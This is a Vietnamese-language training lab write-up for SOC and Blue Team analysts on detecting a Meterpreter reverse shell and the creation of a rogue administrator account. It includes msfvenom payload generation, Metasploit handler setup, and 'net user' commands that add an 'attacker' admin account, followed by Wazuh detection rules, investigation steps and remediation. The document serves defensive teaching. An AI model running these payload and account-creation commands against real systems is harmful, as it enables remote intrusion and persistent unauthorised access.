# Phát hiện Reverse Shell và hành vi tạo tài khoản quản trị

> **Phạm vi sử dụng:** Nội dung được xây dựng cho môi trường lab cô lập phục vụ đào tạo SOC, Threat Hunting và Purple Team. Không thực hiện các lệnh tấn công trên hệ thống không thuộc quyền quản lý hoặc chưa được cấp phép.


Reverse Shell cho phép máy nạn nhân chủ động kết nối ngược ra máy chủ của attacker. Cơ chế này có thể vượt qua nhiều chính sách firewall chỉ tập trung chặn kết nối inbound. Trong bài lab, Kali Linux tạo payload, mở listener và phân phối tệp qua HTTP. Windows Server chạy payload, thiết lập Meterpreter session và sau đó tạo tài khoản `attacker` trong nhóm Administrators.

Mục tiêu Blue Team là không chỉ phát hiện kết nối reverse shell, mà còn nhận diện hành vi hậu khai thác sau khi session đã được mở.

## Kiến trúc hạ tầng



| Máy | Hệ điều hành | IP |
|---|---|---|
| Wazuh Server | Ubuntu | 192.168.174.25 |
| Kali Linux | Kali | 192.168.174.132 |
| Windows Server | Windows Server 2019/2022 | 192.168.174.129 |



## Chuẩn bị môi trường

Trên Wazuh Server:

```bash
systemctl status wazuh-manager
systemctl status wazuh-indexer
systemctl status wazuh-dashboard
```

Trên Windows:

```powershell
Get-Service Wazuh
Get-Service Sysmon64
```

Trên Kali:

```bash
sudo apt update
msfconsole
msfvenom --help
```

## Tạo payload và listener

Trong môi trường lab:

```bash
mkdir ReverseShell
cd ReverseShell
msfvenom -p windows/x64/meterpreter_reverse_tcp   LHOST=192.168.174.132   LPORT=4444   -f exe -o payload.exe
```

Mở handler:

```text
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.174.132
set LPORT 4444
exploit
```

Phân phối file qua HTTP:

```bash
python3 -m http.server 8000
```

Windows truy cập:

```text
http://192.168.174.132:8000
```

Sau khi chạy `payload.exe`, Metasploit hiển thị:

```text
Meterpreter session 1 opened
```

## Hành vi hậu khai thác

Trong shell:

```cmd
whoami
net user attacker P@ssw0rd123 /add
net localgroup administrators attacker /add
net user
net localgroup administrators
```

Từ góc nhìn phòng thủ, việc tạo user mới và gán vào Administrators là tín hiệu nghiêm trọng. Ngay cả khi không nhìn thấy payload ban đầu, các sự kiện thay đổi tài khoản vẫn cho thấy attacker đang thiết lập khả năng duy trì quyền truy cập.

## Phát hiện trên Wazuh

Bài lab xây dựng hai rule:

```xml
<group name="windows,custom">
  <rule id="100704" level="12">
    <if_sid>60109</if_sid>
    <description>[CUSTOM] New Local User Created</description>
    <mitre>
      <id>T1136</id>
    </mitre>
  </rule>
</group>
```

```xml
<group name="windows,custom">
  <rule id="100705" level="15">
    <if_sid>60154</if_sid>
    <description>[CUSTOM] User Added To Administrators Group</description>
    <mitre>
      <id>T1098</id>
    </mitre>
  </rule>
</group>
```

Rule 100704 phát hiện tạo local user. Rule 100705 được đặt mức cao hơn vì tài khoản mới đã được cấp đặc quyền quản trị.



## Điều tra Blue Team

SOC Analyst cần đối chiếu:

- Tiến trình tạo kết nối outbound tới `192.168.174.132:4444`.
- Parent-child process của `payload.exe`.
- Tài khoản chạy payload.
- Event tạo user và thay đổi group membership.
- Thời điểm `attacker` được tạo.
- Các lệnh tiếp theo chạy dưới session reverse shell.
- Có persistence, scheduled task, service hoặc registry run key hay không.

Trên Windows:

```powershell
netstat -ano | findstr 4444
```

Sau đó ánh xạ PID sang process và kiểm tra process tree bằng Sysmon hoặc Task Manager. Nếu kết nối đã đóng, vẫn cần dựa vào Sysmon NetworkConnect và Wazuh alert để dựng lại timeline.

## Xử lý sự cố

Chặn kết nối outbound:

```powershell
New-NetFirewallRule `
  -DisplayName "Block ReverseShell" `
  -Direction Outbound `
  -Action Block `
  -RemoteAddress 192.168.174.132 `
  -Protocol TCP `
  -RemotePort 4444
```

Kiểm tra:

```powershell
Get-NetFirewallProfile | Format-Table Name,Enabled
Get-NetFirewallRule -DisplayName "Block ReverseShell" |
  Get-NetFirewallAddressFilter
netstat -ano | findstr 4444
```

Xóa tài khoản trái phép và đổi mật khẩu Administrator:

```cmd
net user attacker /delete
net user administrator *
```

Trong thực tế, cần cô lập endpoint bằng EDR, bảo quản log và memory nếu có khả năng, đồng thời xem xét rebuild hệ thống nếu attacker đã có quyền Administrator và không thể xác định đầy đủ thay đổi.

## Bài học rút ra

Reverse Shell là một chuỗi hành vi chứ không chỉ một kết nối mạng. Phát hiện hiệu quả cần liên kết outbound connection, process creation và account manipulation. Trong bài lab, thay đổi tài khoản trở thành bằng chứng hậu khai thác có độ tin cậy cao, giúp SOC ưu tiên sự cố ngay cả khi payload chưa được antivirus nhận diện.

---

## Toàn bộ hình ảnh từ tài liệu gốc

Phần dưới đây tập hợp **25 hình ảnh** được trích xuất từ tài liệu gốc cho Lab 5 – Reverse Shell. Thứ tự hình được giữ theo trình tự xuất hiện trong tài liệu.

### Hình 1 – Minh họa Lab 5 – Reverse Shell


### Hình 2 – Minh họa Lab 5 – Reverse Shell



### Hình 3 – Minh họa Lab 5 – Reverse Shell



### Hình 4 – Minh họa Lab 5 – Reverse Shell



### Hình 5 – Minh họa Lab 5 – Reverse Shell



### Hình 6 – Minh họa Lab 5 – Reverse Shell



### Hình 7 – Minh họa Lab 5 – Reverse Shell



### Hình 8 – Minh họa Lab 5 – Reverse Shell



### Hình 9 – Minh họa Lab 5 – Reverse Shell



### Hình 10 – Minh họa Lab 5 – Reverse Shell



### Hình 11 – Minh họa Lab 5 – Reverse Shell



### Hình 12 – Minh họa Lab 5 – Reverse Shell



### Hình 13 – Minh họa Lab 5 – Reverse Shell



### Hình 14 – Minh họa Lab 5 – Reverse Shell



### Hình 15 – Minh họa Lab 5 – Reverse Shell



### Hình 16 – Minh họa Lab 5 – Reverse Shell



### Hình 17 – Minh họa Lab 5 – Reverse Shell



### Hình 18 – Minh họa Lab 5 – Reverse Shell


### Hình 19 – Minh họa Lab 5 – Reverse Shell



### Hình 20 – Minh họa Lab 5 – Reverse Shell



### Hình 21 – Minh họa Lab 5 – Reverse Shell



### Hình 22 – Minh họa Lab 5 – Reverse Shell



### Hình 23 – Minh họa Lab 5 – Reverse Shell



### Hình 24 – Minh họa Lab 5 – Reverse Shell

